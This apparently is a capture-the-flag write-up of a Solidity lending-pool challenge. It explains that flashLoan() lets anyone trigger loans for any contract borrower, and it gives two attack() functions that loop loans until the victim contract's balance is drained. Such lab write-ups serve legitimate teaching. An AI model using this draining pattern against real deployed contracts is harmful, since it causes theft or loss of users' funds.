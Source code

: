 ## Problem 
```flashLoan()``` function from ```NaiveReceiverLenderPool``` not check that the borrower is function caller (```msg.sender```) or not. it's allow anyone to operate the ```flashLoan()``` to any borrower as long as the borrower is a contract: 
```js
    require(borrower.isContract(), "Borrower must be a deployed contract");
```
and the borrower have a function called "receiveEther(uint256)" (if not it will call fallback() function). 

## Solution 

to make this exploit done within one transaction we can make contract to operate ```flashLoan``` and make receiver loan for several times until his balance drawn up. this is the example of function to attack: 
```js
    function attack() external {
        while (address(target).balance > 0) {
            pool.flashLoan(target, 1);
        }
    }
``` 
remember that solidity need Interface to communicate within contract like that. for alternative we can use call function instead:
```js
    function attack() external {
        while (address(target).balance > 0) {
            (bool success,) = pool.call(abi.encodeWithSignature("flashLoan(address,uint256)",target, 1 ));
            require(success);
        }
    }
```